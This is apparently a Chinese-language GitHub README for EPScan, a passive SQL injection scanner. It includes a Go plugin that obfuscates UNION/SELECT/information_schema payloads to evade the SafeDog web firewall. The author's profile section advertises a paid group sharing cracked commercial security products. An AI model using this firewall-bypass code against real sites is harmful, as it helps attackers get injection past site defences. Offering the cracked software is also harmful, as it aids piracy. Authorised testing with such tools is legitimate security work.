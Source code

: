 # EPScan
被动收集资产并自动进行SQL注入检测（插件化 自动Bypass）、XSS检测、RCE检测、敏感信息检测

## 程序介绍
- [x] ~~自动更新Bypass插件~~
- [x] ~~SQL注入自动Bypass~~
- [x] ~~SQL注入支持Get/Post布尔盲注~~
- [x] ~~SQL注入支持请求头Get/Post报错注入~~
- [x] ~~SQL注入自动加载Bypass插件~~

* SQL注入漏洞检测

  * 移植SqlMap的检测模式

  * 插件化Payload改造

  * 插件化Bypass模式

  * 支持Get/Post报错注入

  * 支持Get/Post布尔盲注

  * 支持请求头Get/Post报错注入

  * 自动加载Bypass插件


- [ ] XSS漏洞检测

- [ ] Rce漏洞检测

- [ ] 敏感信息检测

## 程序截图

## 参数教程

```
./EPScan -h

Usage of /EPScan:
  -deep 	bool 	// 选择后开启，默认不开启，不开效率快但是误报微高
        深入扫描（降低效率提高准确率）
	
  -pdelay 	string 	// 需带有http协议头，看例子
        流量转发（程序的流量转发到指定端口，例如Burp的8080端口: http://127.0.0.1:8080) 
	
  -pdir 	string	// 加载指定目录下所有的插件，默认不进行Bypass
        批量加载指定目录下的Bypass插件
	
  -plist 	string	// 查看插件信息，默认输出 "plus/" 目录下的插件信息
        查看插件列表和详细信息 (default "plus/")
	
  -port 	string	// 开启监听端口
        监听端口配置 (default "8899")
	
  -ptest 	string	// 测试指定插件效果 会输出原始Payload和处理后的Payload
        插件测试
	
  -run 		bool	// 开始被动式扫描，例如：./EPScan -pdir plus/ -port 8899 -run
        开始被动式扫描
```

**开始被动式扫描**

```
./EPScan -port 8899 -run
```

**开始被动式扫描并加载Bypass插件目录**

```
./EPScan -pdir plus/ -port 8899 -run
```

## SQL注入Bypass插件编写

**联系微信：backxyh 贡献大于5个插件即可进入内测群（优先发布测试版和最新版，大量优秀Bypass方案及插件共享）**

### 例：

```
package main //包名必须为 "main"

import (
	"strings"
)

var ( // 全局变量必须包含以下三个参数
	Plus_Author   = "ExpLang"        // 插件作者
	Plus_Version  = "1.0"            // 插件版本
	Plus_Describe = "Bypass_SafeDog" // 插件描述
)

func Bypass(Value string) string { // 主函数名必须为 "Bypass" 区分大小写，参数为String，返回值为String，思路：传入原始Payload，返回处理后的Payload。

	var Value_Bypass string
	var bypass_SafeDog_str = "/*x^x*/"
	Value_Bypass = strings.Replace(Value, "UNION", bypass_SafeDog_str+"UNION"+bypass_SafeDog_str, -1) // 寻找指定字符串并全部替换
	Value_Bypass = strings.Replace(Value_Bypass, "SELECT", bypass_SafeDog_str+"SELECT"+bypass_SafeDog_str, -1)
	Value_Bypass = strings.Replace(Value_Bypass, "AND", bypass_SafeDog_str+"AND"+bypass_SafeDog_str, -1)
	Value_Bypass = strings.Replace(Value_Bypass, "=", bypass_SafeDog_str+"="+bypass_SafeDog_str, -1)
	Value_Bypass = strings.Replace(Value_Bypass, " ", bypass_SafeDog_str, -1)
	Value_Bypass = strings.Replace(Value_Bypass, "information_schema.", "%20%20/*!%20%20%20%20INFOrMATION_SCHEMa%20%20%20%20*/%20%20/*^x^^x^*/%20/*!.*/%20/*^x^^x^*/", -1)
	Value_Bypass = strings.Replace(Value_Bypass, "FROM", bypass_SafeDog_str+"FROM"+bypass_SafeDog_str, -1)

	return Value_Bypass // 返回处理后的Payload。
}

```
### 编译为插件：

```
sudo go build --buildmode=plugin -o plus/bypass_name.so bypass/bypass_name/bypass_name.go
```

编译后可以看到plus目录下新增了一个名为："bypass_name"的so文件，运行程序：

```
./EPScan -pluslist

+----+---------+---------+-------------------------------+-------------------------------+
| ID | AUTHOR  | VERSION |           DESCRIBE            |             PATH              |
+----+---------+---------+-------------------------------+-------------------------------+
| 1  | ExpLang | 1.0     | Bypass_SafeDog                | plus/bypass_SafeDog.so        |
| 2  | ExpLang | 1.0     | 替换 "'" 单引号为 "%EF%BC%87"   | plus/bypass_apostrophemask.so |
| 3  | ExpLang | 1.0     | 测试/演示   		         | plus/bypass_name.so           |
+----+---------+---------+-------------------------------+-------------------------------+
```

### 测试插件

```
./EPScan -ptest "plus/bypass/bypass_name/bypass_name.go"
```

----

### Hi there 👋

<!--
**ExpLangcn/ExpLangcn** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->

![](https://komarev.com/ghpvc/?username=ExpLangcn)

- 😄 I’m ExpLang
- 我的后续安全项目将会发布在：**[Security-Magic-Weapon 组织](https://github.com/Security-Magic-Weapon) 点击查看！**
- Telegram频道：**[安全技术资讯聚合](https://t.me/sec_info) 实时更新国内外700+个黑客安全技术论坛/社区/博客/公众号的技术文章.**
- Telegram频道：**[安全资源整合互推](https://t.me/secyq) 一个用于收录Telegram上 安全行业 黑客技术 并且还会自动推送最新的CVE漏洞、CNVD漏洞、最新的红队工具等。**

### 我的个人知识星球

本星球会**每日更新**全网优秀安全资源包括但不限于：**安全工具**、**安全脚本**、**安全学习资料**、**安全商业产品的破解版**等，资源方向均与安全各领域相关。

本星球建有运营微信群可及时在群内反馈和互动（索取安全资源），并在运营微信群内拥有Bot机器人用于通知星球最新动态方便各位星友不错过任何优秀动态。

本星球会针对安全资源进行**严格的分类**，方便各位星友可以**快速定位**自己所需的资源，及给各位星友带来更好的**阅读体验**。

本星球会**每月**进行一次**优质资源统计**，会根据本阅读点赞/评论/阅读/下载最多的资源进行排序方便大家更好的浏览。

并且本星球将会**每季度**进行一次**星友知识共享直播**，仅限本星球的星友参与，直播会邀请星球内的部分大佬或在外部邀请在某领域有所建设的大佬进行**免费的知识共享**，并且本星球的续费折扣是平台的最低**5折折扣**！

<img src=https://tva1.sinaimg.cn/large/006y8mN6gy1h6tocodn91j30ku0bggm5.jpg width=40% />



---

<!-- 
[![ExpLangcn's GitHub stats](https://github-readme-stats.vercel.app/api?username=ExpLangcn)](https://twitter.com/ExpLang_Cn)
[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=ExpLangcn&layout=compact)](https://twitter.com/ExpLang_Cn) -->

<div>
  <a href="https://twitter.com/ExpLang_Cn">
    <img align="left" height="160" src="https://github-readme-stats.vercel.app/api/top-langs/?username=ExpLangcn&layout=compact" />
  </a>
  <a href="https://github.com/ExpLangcn/ExpLangcn/edit/main/README.md">
    <img align="left" height="160" src="https://github-readme-stats.vercel.app/api?username=ExpLangcn&show_icons=true&count_private=true" />
  </a>
</div>
